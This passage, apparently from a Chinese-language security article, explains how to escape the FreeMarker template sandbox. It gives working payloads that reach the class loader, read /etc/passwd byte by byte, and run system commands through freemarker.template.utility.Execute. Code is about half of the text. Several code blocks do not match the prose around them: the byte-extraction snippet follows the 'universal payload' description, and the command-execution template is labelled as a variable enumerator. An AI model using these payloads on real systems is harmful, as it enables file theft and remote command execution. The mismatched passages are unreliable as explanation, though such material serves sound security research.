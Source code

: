 ```
//java.lang.Object.getClass() -> java.lang.Class.getClassLoader()

${any_object.class.classLoader}

//javax.servlet.ServletRequest -> javax.servlet.ServletContext.getClassLoader()

${request.servletContext.classLoader}

```

（Payload 来源：Room for Escape: Scribbling Outside the Lines of Template Security）

在我们的测试中，我们发现到字节数组不会自动转换为字符串。规避该限制的一种方法是每次提取一个字节。

```
<#assign uri = classLoader.getResource("META-INF").toURI() >

<#assign url = uri.resolve("file:///etc/passwd").toURL() >

<#assign bytes = url.openConnection().inputStream.readAllBytes() >

${bytes}

```

别忘了，字节是以十进制格式打印的。

通用方法

Oleksandr Mirosh 和 Alvaro Mu?oz 在他们的文章中详细介绍了 Web 容器特有的各种链条。这些容器包括 Tomcat、Jetty、GlassFish、WebLogic 和 WebSphere。如果您想寻找 Freemarker 之外的沙盒的逃逸技术，这些都是一个很好的灵感来源。

然而，如果您的目标是利用当前的模板引擎，则存在一个通用的 payload（也是来自上面提及的同一篇文章），适用于 Freemarker 2.3.29 以及更低版本（2020 年 3 月以及修复了该漏洞）。为此，您需要在数据模型中找到一个作为对象的变量。

```
${bytes[0]}

${bytes[1]}

${bytes[2]}

[...]

```

这里是一个模板，它将对数据模型中的所有变量进行暴力枚举。

```
<#assign classloader=<<object>>.class.protectionDomain.classLoader>

<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>

<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>

<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>

${dwf.newInstance(ec,null)("whoami")}

```
